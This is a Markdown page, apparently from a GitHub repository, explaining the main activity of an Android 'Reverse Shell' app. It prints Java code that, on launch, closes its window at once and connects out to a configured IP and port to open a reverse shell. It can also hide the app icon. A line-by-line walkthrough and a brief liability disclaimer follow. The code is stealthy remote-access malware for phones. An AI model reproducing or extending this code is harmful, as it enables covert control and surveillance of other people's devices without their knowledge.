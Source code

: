 # Main Activity for Reverse Shell Android Application

This Markdown file describes the main activity component of the Reverse Shell Android application. The main activity serves as the entry point for the application and handles the initialization and execution of the reverse shell connection.

## Activity Overview

The `MainActivity` class extends the `AppCompatActivity` class provided by the Android framework. It represents the main activity of the application and is responsible for starting the reverse shell connection.

## Code Explanation

```java
package com.example.reverseshell2;

import androidx.appcompat.app.AppCompatActivity;

import android.app.Activity;
import android.content.Context;
import android.os.Bundle;
import android.os.PowerManager;
import android.util.Log;

public class MainActivity extends AppCompatActivity {

    Activity activity = this;
    Context context;
    static String TAG = "MainActivityClass";
    private PowerManager.WakeLock mWakeLock = null;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        overridePendingTransition(0, 0);
        context = getApplicationContext();
        Log.d(TAG, config.IP + "\t" + config.port);
        // new functions(activity).overlayChecker(context);
        // final PowerManager pm = (PowerManager) getSystemService(Context.POWER_SERVICE);
        // mWakeLock = pm.newWakeLock(PowerManager.SCREEN_DIM_WAKE_LOCK,TAG);
        // mWakeLock.acquire();
        finish();
        new tcpConnection(activity, context).execute(config.IP, config.port);
        overridePendingTransition(0, 0);
        if (config.icon) {
            new functions(activity).hideAppIcon(context);
        }
    }
}
```

- The `MainActivity` class extends the `AppCompatActivity` class to create an activity component.
- The `activity` variable is initialized with `this`, representing the current activity instance.
- The `context` variable is initialized with the application's `ApplicationContext`.
- The `TAG` variable is a string used for logging purposes.
- The `mWakeLock` variable represents a wake lock to keep the device's screen on (currently commented out).
- The `onCreate` method is overridden and called when the activity is created.
  - The `super.onCreate(savedInstanceState)` method call is used to initialize the activity.
  - The `overridePendingTransition(0, 0)` method call is used to remove any transition animation.
  - The `context` variable is set to the application's `ApplicationContext`.
  - The IP address and port from the `config` class are logged for debugging purposes.
  - The code related to overlay checking and wake lock acquisition is currently commented out.
  - The `finish()` method call is used to finish the activity immediately.
  - An instance of the `tcpConnection` class is created and executed to establish the reverse shell connection using the IP address and port from the `config` class.
  - The `overridePendingTransition(0, 0)` method call is used again to remove any transition animation.
  - If the `icon` flag in the `config` class is `true`, the application icon is hidden using the `functions` class.

## Usage

The `MainActivity` class serves as the entry point for the Reverse Shell Android application. It initializes the necessary components and establishes the reverse shell connection when the application is launched.

## Disclaimer

Please note that the use of this application may be subject to legal restrictions. The repository owner and contributors are not responsible for any misuse or illegal activities conducted with this application. Use it responsibly and ethically.

## License

The source code in this repository is licensed under the [MIT License](LICENSE).
